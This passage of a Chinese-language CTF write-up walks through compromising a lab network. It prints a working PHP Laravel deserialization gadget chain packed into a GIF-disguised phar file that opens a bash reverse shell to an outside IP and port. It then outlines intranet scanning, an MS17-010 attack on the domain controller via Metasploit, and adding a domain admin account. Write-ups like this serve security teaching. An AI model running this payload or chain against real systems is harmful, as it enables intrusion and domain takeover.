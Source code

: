 ``` php
}
namespace{
    $command = new Illuminate\Broadcasting\BroadcastEvent("bash -c 'bash -i >& /dev/tcp/117.53.27.121/13569 0>&1'");
    $dispater = new Illuminate\Bus\Dispatcher("system");
    $PendingBroadcast = new Illuminate\Broadcasting\PendingBroadcast($dispater,$command);
    $phar = new Phar('phar.phar');
    $phar -> stopBuffering();
    $phar->setStub("GIF89a"."<?php __HALT_COMPILER(); ?>"); 
    $phar -> addFromString('test.txt','test');
    $phar -> setMetadata($PendingBroadcast);
    $phar -> stopBuffering();
    rename('phar.phar','phar.txt');
}
```

生成phar文件并上传，然后利用phar伪协议：

![1622283986182.png](https://i.loli.net/2021/06/01/aSgwuEB1pGRH3Lx.png)

反弹shell：

![1622284010673.png](https://i.loli.net/2021/06/01/H5dzQYm79vbKATj.png)

探测一下内网服务，因为已知有域，重点探测88和389：

![1622326668783.png](https://i.loli.net/2021/06/01/ZIDecEuYlNBqJHC.png)


可以看到10.10.1.1开放了445、88、389，我们再从ldap确认一下（防止误认为vcenter等服务器）

![1622326712702.png](https://i.loli.net/2021/06/01/xDqctC2w9ZLrHBb.png)


然后再通过netbios看一下机器名，方便后面如果要打zerologon用

![1622326748426.png](https://i.loli.net/2021/06/01/wt6H3nOgE9U1MA2.png)


由于是ctf环境，所以优先考虑直接获取权限的漏洞，扫一波17010，发现域控存在该漏洞，且系统版本为2012，基本为稳定利用

![1622326790407.png](https://i.loli.net/2021/06/01/qMxf3ENDYBdz284.png)


直接使用msf来打：

![1622326113311.png](https://i.loli.net/2021/06/01/teqCu3NazsbrZGy.png)

读flag：

![1622326123872.png](https://i.loli.net/2021/06/01/vIFaKie7QoyC2nR.png)

利用域控机器账户可添加用户并加入域管组：

![1622326149707.png](https://i.loli.net/2021/06/01/LSE2G5BrRxPD41h.png)
